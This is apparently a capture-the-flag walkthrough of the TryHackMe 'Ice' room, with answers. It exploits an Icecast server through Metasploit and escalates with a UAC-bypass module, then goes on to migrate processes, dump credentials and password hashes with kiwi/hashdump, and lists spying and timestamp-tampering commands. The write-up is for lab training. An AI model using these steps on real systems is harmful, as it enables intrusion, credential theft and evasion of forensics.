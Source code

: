 > # Ice

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Task 2 - Recon](#task-2---recon)
    - [Task 3 - Gain Access](#task-3---gain-access)
    - [Task 4 - Escalate](#task-4---escalate)
    - [Task 5 - Looting](#task-5---looting)
    - [Task 6 - Post-Exploitation](#task-6---post-exploitation)

<!-- /TOC -->
## Task 2 - Recon
1. One of the more interesting ports that is open is Microsoft Remote Desktop (MSRDP). What port is this open on?<br>
    Scan the target with `nmap` tool.<br>
    ```
    $ nmap 10.10.222.20 -Pn 
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-02 09:07 EDT
    Nmap scan report for 10.10.222.20
    Host is up (0.38s latency).
    Not shown: 988 closed tcp ports (conn-refused)
    PORT      STATE SERVICE
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    3389/tcp  open  ms-wbt-server
    5357/tcp  open  wsdapi
    8000/tcp  open  http-alt
    49152/tcp open  unknown
    49153/tcp open  unknown
    49154/tcp open  unknown
    49158/tcp open  unknown
    49159/tcp open  unknown
    49160/tcp open  unknown
    ```
    **Answer:** 3389

1. What service did nmap identify as running on port 8000? (First word of this service)<br>
    Use `-sV` flag and specify port 8000.<br>
    ```
    $ nmap 10.10.222.20 -Pn -sV -p8000
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-02 09:12 EDT
    Nmap scan report for 10.10.222.20
    Host is up (0.37s latency).

    PORT     STATE SERVICE VERSION
    8000/tcp open  http    Icecast streaming media server
    ```
    **Answer:** Icecast

1. What does Nmap identify as the hostname of the machine? (All caps for the answer)<br>
    Run `nmap` with `-A` flag.<br>
    ![](images/1.png)<br>
    **Answer:** DARK-PC

## Task 3 - Gain Access
1.  What type of vulnerability is it?<br>
    Search Icecast and sort with score descending, I select the newest vulnerable.<br>
    ![](images/2.png)<br>
    At line `Vulnerability type`, you will see the type.<br>
    ![](images/3.png)<br>
    **Answer:** Execute CodeOverflow

1. What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000<br>
    **Answer:** CVE-2004-1561

1. What is the full path (starting with exploit) for the exploitation module?<br>
    Type `msfconsole` in Kali Machine, then `search icecast`, you will see only one module asscociated with icecast.<br>
    ![](images/4.png)<br>
    **Answer:** exploit/windows/http/icecast_header

1. Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank?<br>
    Type `show options`, you will the required field but currently is blank.<br>
    ![](images/5.png)<br>
    **Answer:** RHOSTS

## Task 4 - Escalate
1. Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?<br>
    Set RHOSTS to the target IP address and LHOST to your private IP when connect to Tryhackme using OpenVPN, then run the exploit and you will get a meterpreter.<br>
    ![](images/6.png)<br>
    **Answer:** meterpreter

1. What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'RP: Metasploit' room.<br>
    Use `getuid` command.<br>
    ```
    meterpreter > getuid
    Server username: Dark-PC\Dark
    ```
    **Answer:** Dark

1. What build of Windows is the system?<br>
    Use `sysinfo` command.<br>
    ```
    meterpreter > sysinfo
    Computer        : DARK-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
    ```
    **Answer:** 7601

1. Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?<br>
    From previous question.<br>
    **Answer:** x64

1. Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?<br>
    In this meterpreter, run the given command `run post/multi/recon/local_exploit_suggester`.<br>
    ![](images/7.png<br>
    **Answer:** exploit/windows/local/bypassuac_eventvwr

1. Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?<br>
    We have to change the LHOST option.<br>
    **Answer:** LHOST

1. We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?<br>
    Run the module to privilege escalation.<br>
    ![](images/8.png)<br>
    Execute `getprivs` command.<br>
    ![](images/9.png)<br>
    **Answer:** SeTakeOwnershipPrivilege

## Task 5 - Looting
1. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service?<br>
    Use `ps` to list the running processes.<br>
    ![](images/10.png)<br>
    **Answer:** spoolsv.exe

1. Let's check what user we are now with the command `getuid`. What user is listed?<br>
    ```
    meterpreter > migrate -N spoolsv.exe
    [*] Migrating from 348 to 1364...
    [*] Migration completed successfully.
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    ```
    **Answer:** NT AUTHORITY\SYSTEM

1. Which command allows up to retrieve all credentials?<br>
    Load kiwi and display help page.<br>
    ![](images/11.png)<br>
    **Answer:** creds_all

1. What is Dark's password?<br>
    Run `creds_all` command.<br>
    ![](images/12.png)<br>
    **Answer:** Password01!

## Task 6 - Post-Exploitation
1. What command allows us to dump all of the password hashes stored on the system? <br>
    ```
    hashdump      Dumps the contents of the SAM database
    ```
    **Answer:** hashdump

1. While more useful when interacting with a machine being used, what command allows us to watch the remote user's desktop in real time?<br>
    ```
    screenshare    Watch the remote user desktop in real time
    ```
    **Answer:** screenshare

1. How about if we wanted to record from a microphone attached to the system?<br>
    ```
    record_mic     Record audio from the default microphone for X seconds
    ```
    **Answer:** record_mic

1. To complicate forensics efforts we can modify timestamps of files on the system. What command allows us to do this? Don't ever do this on a pentest unless you're explicitly allowed to do so! This is not beneficial to the defending team as they try to breakdown the events of the pentest after the fact.<br>
    ```
    timestomp     Manipulate file MACE attributes
    ```
    **Answer:** timestomp

1. Mimikatz allows us to create what's called a `golden ticket`, allowing us to authenticate anywhere with ease. What command allows us to do this?<br>
    ```
    golden_ticket_create   Create a golden kerberos ticket
    ```
    **Answer:** golden_ticket_create

